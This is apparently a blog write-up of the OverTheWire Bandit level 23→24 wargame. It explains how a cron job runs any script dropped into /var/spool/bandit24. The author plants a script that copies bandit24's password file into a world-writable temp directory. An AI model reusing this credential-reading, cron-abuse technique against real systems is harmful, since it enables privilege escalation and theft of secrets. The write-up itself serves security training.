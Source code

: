 ```yaml
---
layout: post
title:  "Bandit Level 23 → Level 24"
date:   2021-05-22 19:59:50
categories: ctf wargames linux
tags: wargames ctf overthewire linux
series: "OverTheWire: Bandit"
excerpt: watch this
mathjax: false
---
```


## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.


## Solution
```bash
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /var/spool
bandit23@bandit:/var/spool$ ls -la
total 20
drwxr-xr-x  5 root root     4096 May 14  2020 .
drwxr-xr-x 11 root root     4096 May  7  2020 ..
drwxrwx-wx 29 root bandit24 4096 May 23 02:31 bandit24
drwxr-xr-x  3 root root     4096 May  3  2020 cron
lrwxrwxrwx  1 root root        7 May  3  2020 mail -> ../mail
drwx------  2 root root     4096 Jan 14  2018 rsyslog
bandit23@bandit:/var/spool$ cd `mktemp -d`
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ vim getpass.sh 
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ chmod 777 getpass.sh 
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ chmod 777 /tmp/tmp.c3zh6DIqLu
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ cp getpass.sh /var/spool/bandit24/
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ watch -n1 ls
bandit23@bandit:/tmp/tmp.c3zh6DIqLu$ cat password.txt 
U------------------------------Z
```

Contents of getpass.sh
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.c3zh6DIqLu/password.txt
```

## Explanation

This level requires creating a very basic shell script, but perhaps the part that is most likely to cause headaches is forgetting to set permissions. The script needs to be executable by cron, and the temp directory needs to be writable to cron. Since this is a lab environment, we can use chmod 777 on both the script and the temp directory.

The **watch** command is not required, but saves you from needing to spam ls or waiting a few minutes before checking to see if the file was created. The **-n 1** option tells watch to update once a second. The **ls** at the end of the line tells watch what to monitor. Every second watch will run ls for you. You'll see the time to the right and will see password.txt once its created. 
